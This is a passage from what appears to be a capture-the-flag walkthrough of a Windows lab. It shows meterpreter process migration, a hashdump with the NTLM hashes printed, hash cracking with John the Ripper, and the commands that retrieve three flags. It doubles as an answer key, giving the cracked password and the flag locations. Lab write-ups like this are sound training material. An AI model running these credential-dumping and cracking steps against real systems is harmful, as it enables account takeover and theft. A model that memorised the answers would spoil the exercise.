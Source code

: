   ```
  ps
  ```
- Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
  ```
  migrate <PID>
  ```
### Task 4
- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
  ```
  hashdump

  Output: ---------------------------------------------------
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
  ```
  > Jon
- Copy this password hash to a file and research how to crack it. What is the cracked password?
  ```
  echo "ffb43f0de35be4d9917ac0cc8ad57f8d" > hash.txt
  john --format=NT --wordlist=<rockyou.txt> hash.txt
  ```
  > alqfna22
### Task 5
- Flag1? This flag can be found at the system root. 

  There are two ways of accomplishing this. We can return to the shell sessions and `cd` to the **C** directory and `type` out the flag, or we can `search` for it in **meterpreter** and `cat` out the flag.
  ```
  shell:  cd ../..
          type flag1.txt

  meterpreter:  search -f flag1.txt
                cat c:/flag1.txt
  ```
- Flag2? This flag can be found at the location where passwords are stored within Windows.
  ```
  shell:  dir /b/s flag2.txt
          type C:\Windows\System32\config\flag2.txt

  meterpreter:  search -f flag2.txt
                cat c:/Windows/System32/config/flag2.txt
  ```
  >
- flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
  ```
  shell:  dir /b/s flag3.txt
          type c:\Users\Jon\Documents\flag3.txt

  meterpreter:  search -f flag2.txt
                cat c:/Users/Jon/Documents/flag3.txt
  ```
